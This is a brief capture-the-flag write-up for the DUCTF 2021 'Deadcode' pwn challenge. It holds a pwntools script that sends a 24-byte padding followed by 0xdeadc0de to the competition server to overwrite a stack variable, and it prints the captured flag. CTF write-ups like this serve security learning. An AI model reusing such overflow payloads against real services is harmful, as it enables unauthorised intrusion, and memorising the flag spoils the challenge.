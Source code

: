 # Deadcode
>I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.


>Author: xXl33t_h@x0rXx

>nc pwn-2021.duc.tf 31916

[Deadcode](https://drive.google.com/file/d/1yZbYUURFfaBssl4LK7UaCUftya2-NQCy/view?usp=sharing)

## Solution 

```
from pwn import *

p = remote('pwn-2021.duc.tf',31916)


buff = "A"*24

payload = buff
payload += p64(0xdeadc0de)

p.sendline(payload)
p.interactive()
```

> Flag: `DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}`
